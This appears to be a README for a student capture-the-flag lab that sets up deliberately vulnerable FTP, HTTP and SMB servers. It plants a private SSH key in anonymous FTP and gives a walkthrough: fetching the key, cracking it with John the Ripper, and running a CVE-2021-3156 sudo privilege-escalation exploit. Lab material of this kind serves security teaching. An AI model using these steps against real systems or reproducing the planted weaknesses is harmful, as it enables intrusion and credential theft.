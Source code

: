 # IC1_projekt
Requirments:
* Docker
* Docker-compose

Install packages
---------------
```
$ chmod +x installPackages.sh
# ./installPackages.sh
```
The script contains the necessary packages for the functionality of the OS.

HTTP server configuration (html files)
---------------
You have to chose which files to use before the server is ran (before you use docker-compose).

Docker (HTTP server)
---------------
```
# docker-compose up -d
```
Docker-compose creates both an ftp and http servers.

FTP server installation
---------------
```
$ chmod +x ftp-server/setupFTP
# ftp-server/setupFTP
```
The main FTP directory is in /home and ownership of the folder is "none", therefore Anonymous user has access to all user data.

SMB server installation
---------------
```
$ chmod +x smb-server/setupSMB
# smb-server/setupSMB
```
The commands above only install the server and shared folders. You still have to add users using the commands below.
```
# smbpasswd -a <username>
```

Set up new user
---------------
### Create new user
- `sudo adduser <username>`... user friendly setting
- OR,
- `sudo useradd -m <username>`... create a new user <username>, `-m` create home directory `/home/<username>/`
- `sudo passwd <username>`... sets a password for the user `<username>`, 

### Generating SSH keys
`ssh-keygen -t rsa -b 2048` 
- `mkdir /home/<username>/.ssh/authorized_keys`
- `cp /home/<username>/.ssh/id_rsa.pub /home/<username>/.ssh/authorized_keys`
- Private key to FTP
  - `mv /home/<username>/.ssh/id_rsa /home/<username>`
  - `chmod +rw /home/<username>/id_rsa`
  - `sudo mv /home/<username>/id_rsa /var/ftp/.ssh/`

### Set /etc/ssh/sshd_config
- `sudo nano /etc/ssh/sshd_config`
  - add `AuthorizedKeysFile %h/.ssh/authorized_keys/id_rsa.pub`
  - No password authentication for user `<username>`:
    - `Match User <username>`
    - `PasswordAuthentication no`    
  - `service ssh restart`

### flags.txt
- `sudo bash -c 'echo "https://www.youtube.com/watch?v=5T5BY1j2MkE" > /home/xpepik/flags.txt'`
- `sudo chmod 600 /home/xpepik/flags.txt`

Instruction for PENTESTING
----------
# GET ssh id_rsa from FTP
```
ftp <IP_target>
username: anonymous
password: anonymous
cd .ssh/
get id_rsa
exit
chmod 600 id_rsa
```

# "Crack" ssh key with John The Ripper
```
$ locate ssh2john.py
$ python /usr/share/john/ssh2john.py id_rsa > id_rsa.hash 
$ locate rockyou.txt.gz
$ gunzip rockyou.txt.gz
$ john id_rsa.hash -wordlist= rockyou.txt
```

CVE-2021-3156
-------------
- directory contains `hac.c`, `lib.c`, `Makefile`, `README.md`
```
$ cd /home/<username>/CVE-2021-3156/
$ make
$ ./sudo-hax-me-a-sandwich 0
```
